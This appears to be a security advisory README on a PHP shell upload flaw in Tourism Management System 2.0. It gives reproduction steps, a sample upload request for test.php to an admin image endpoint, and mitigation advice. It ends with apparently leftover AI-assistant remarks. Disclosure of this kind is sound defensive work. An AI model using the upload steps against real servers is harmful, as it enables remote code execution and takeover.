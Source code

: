 # Shell Upload Vulnerability in Tourism Management System 2.0

## Description

This repository highlights a **Shell Upload vulnerability** in **Tourism Management System 2.0**. The vulnerability allows an attacker to upload and execute arbitrary PHP shell scripts on the server, leading to **remote code execution** and **unauthorized access** to the system. This can result in the compromise of sensitive data and system functionality.

## Affected Version

- **Tourism Management System 2.0**

## Impact

Exploitation of this vulnerability can have serious consequences, including:

- **Remote Code Execution (RCE)**: Attackers can upload malicious PHP scripts and execute them on the server.
- **Unauthorized Access**: Attackers can gain unauthorized control over the system.
- **Data Compromise**: Sensitive information and system functionality can be exposed or manipulated.

## Steps to Reproduce

1. **Login to Admin Panel**: Use valid credentials to log in to the admin panel.
2. **Create Tour Package**: Navigate to the "Create Tour Package" section.
3. **Upload Malicious PHP File**: In the "Package Image Upload" field, upload a PHP file (e.g., `test.php`).
4. **Submit Form**: Fill in the necessary form fields and submit the package.
5. **Check Uploaded File**: After the upload is complete, verify that the PHP file has been uploaded and is executable.

## Example Request Data

Here is an example of the HTTP request used to upload the PHP file:

```http
POST /admin/change-image.php?imgid=3 HTTP/1.1
Host: 192.168.1.74
Connection: close
Content-Length: 307
Cache-Control: max-age=0
sec-ch-ua: "Not;A=Brand";v="99", "Brave";v="139", "Chromium";v="139"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: https://192.168.1.74
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryZPFQDKk0hvosDupP
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8
Sec-GPC: 1
Accept-Language: en-US,en;q=0.6
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://192.168.1.74/admin/change-image.php?imgid=3
Accept-Encoding: gzip, deflate
Cookie: ui_session=2986ad8c0a5b3df4d7028d5f3c06e936c68a16a9283ab6ef697744491a9f9d7497aca3add81903ee1c9841fe7d6195a22a4641dc4ccab5ddc917638bb655e1ff5; PHPSESSID=713r9ihcoks4p4se1isaia5u49

------WebKitFormBoundaryZPFQDKk0hvosDupP
Content-Disposition: form-data; name="packageimage"; filename="test.php"
Content-Type: application/html

------WebKitFormBoundaryZPFQDKk0hvosDupP
Content-Disposition: form-data; name="submit"

------WebKitFormBoundaryZPFQDKk0hvosDupP-- ```

## Mitigation and Recommendations

To mitigate the **Shell Upload vulnerability** in the Tourism Management System 2.0 and prevent attackers from uploading and executing malicious files, consider implementing the following security measures:

### 1. **Restrict File Types**
   - Only allow file uploads for specific types of files that are required for the application. In this case, only image files (such as `.jpg`, `.png`, `.gif`) should be allowed.
   - **Validation on both client and server side**:
     - On the **client side**, ensure that the file type is validated before submission.
     - On the **server side**, check the file extension and MIME type of the uploaded file to ensure it is a valid image format and not an executable (e.g., `.php`, `.exe`).

### 2. **File Content Inspection**
   - Use content-based validation to ensure the uploaded file's content matches its extension and MIME type. For example, even if a file has a `.jpg` extension, its content might not be an image. Implement the following:
     - **Check MIME type**: Verify the MIME type returned by the `fileinfo()` function or a similar method.
     - **Check file signatures**: Use methods to inspect the file header and verify that it corresponds to the expected format (e.g., `magic bytes` for images).
     
### 3. **Disable PHP Execution in Uploaded Folders**
   - **Prevent script execution** in directories where user uploads are stored. This can be achieved by adding a `.htaccess` file (for Apache) or configuring your web server to prevent execution in certain directories.
     - Example for Apache:
       ```apache
       <Files *.php>
           Deny from all
       </Files>
       ```
     - Example for Nginx:
       ```nginx
       location ~* \.php$ {
           deny all;
       }
       ```

### 4. **Rename Uploaded Files**
   - Rename the uploaded files using a random string or UUID to avoid predictable file names. This will make it difficult for attackers to guess the names of uploaded files and potentially execute them.

### 5. **Limit File Upload Size**
   - Set limits on the size of files that can be uploaded. Large file uploads could be a sign of malicious activity, and limiting file sizes can reduce the risk of abuse.
   - Example: Set a maximum file size for uploads (e.g., 2MB for images).

### 6. **Use Web Application Firewalls (WAF)**
   - Implement a **WAF** to filter and monitor HTTP requests for malicious payloads. Many WAFs come with predefined rules to block common attacks, including file upload exploits.
   - WAFs like **Cloudflare**, **ModSecurity**, or **AWS WAF** can help block malicious file uploads in real-time.

### 7. **Enable Security Headers**
   - Ensure that proper security headers are set to protect against certain attacks:
     - **X-Content-Type-Options**: Prevents browsers from interpreting files as a different MIME type.
     - **Content-Security-Policy (CSP)**: Prevents the execution of inline scripts and loading of unauthorized resources.
     - **Strict-Transport-Security (HSTS)**: Forces clients to communicate with the server over HTTPS.

### 8. **Monitor and Audit File Uploads**
   - Regularly audit and log all file upload actions. Keep detailed logs of which files are uploaded, by whom, and any errors that occur during the upload process. Set up an alerting mechanism to notify administrators of any suspicious activity, such as the upload of executable files or files with unusual extensions.

### 9. **Conduct Regular Security Audits and Penetration Testing**
   - Conduct **regular vulnerability assessments**, security audits, and **penetration testing** to ensure your system is secure and that vulnerabilities like this are caught early.
   - Utilize automated vulnerability scanning tools as well as manual testing methods to identify potential weaknesses in the system.

### 10. **User Role Management**
   - **Limit the permissions** of users who can upload files. If file uploads are not necessary for all users, restrict access to only those who need it (e.g., administrators or trusted users).
   - Ensure that users cannot **upload files with administrative privileges** unless absolutely required for their role.

---

Implementing these measures will significantly reduce the risk of Shell Upload vulnerabilities and other file upload-related attacks. The goal is to make the system more resilient and protect it from unauthorized access or malicious exploitation.

### Key Points:
- The README provides a detailed explanation of the vulnerability, its impact, and how to reproduce the issue.
- It also includes recommended mitigations to help secure the system.
- I've formatted the example HTTP request to make it easy for users to understand the exact steps.

Feel free to adjust any sections as needed!
